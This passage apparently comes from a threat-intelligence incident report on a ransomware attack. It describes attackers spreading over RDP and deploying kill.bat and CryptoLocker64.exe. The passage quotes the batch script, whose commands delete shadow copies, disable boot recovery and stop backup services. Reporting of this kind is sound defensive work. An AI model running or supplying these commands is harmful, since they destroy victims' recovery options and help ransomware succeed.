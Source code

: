 
[![](https://thedfirreport.com/wp-content/uploads/2021/12/8099-12-r.png)](https://thedfirreport.com/wp-content/uploads/2021/12/8099-12-r.png)


From a file server, the threat actors then established RDP connections to all the machines in the environment.  The threat actors transferred 2 files onto the machines they connected to. A batch script named kill.bat and a ransomware executable CryptoLocker64.exe.


The batch script is responsible for deletion of volume shadow copies, turning off automatic repairs and stopping all the running services on the host. Some of the commands are as follows:



```
sc  config "Netbackup Legacy Network service" start= disabled
bcdedit /set {default}
bcdedit /set {default} recoveryenabled No 
vssadmin.exe Delete Shadows /all /quiet
wmic.exe Shadowcopy Delete
net stop "Zoolz 2 Service" /y
net stop "Veeam Backup Catalog Data Service" /y
net stop "Symantec System Recovery" /y
net stop "SQLsafe Filter Service" /y
net stop "SQLsafe Backup Service" /y
net stop "SQL Backups" /y
net stop "Acronis VSS Provider" /y
net stop VeeamDeploySvc /y
net stop BackupExecVSSProvider /y
net stop BackupExecRPCService /y
net stop BackupExecManagementService /y
net stop BackupExecJobEngine /y
net stop BackupExecDeviceMediaService /y

```

After completion of this activity, the ransomware binary was executed manually over the RDP connections.


[![](https://thedfirreport.com/wp-content/uploads/2021/12/8099-13-r.png)](https://thedfirreport.com/wp-content/uploads/2021/12/8099-13-r.png)


From the threat actors starting their ping sweep, to final host encryption, about an hour passed leaving behind the ransom note for the organization to find. The threat actors went from initial access to domain wide ransomware in just under two days.




---


[![](https://thedfirreport.com/wp-content/uploads/2021/12/8099-r4-r.png)](https://thedfirreport.com/wp-content/uploads/2021/12/8099-r4-r.png)




---
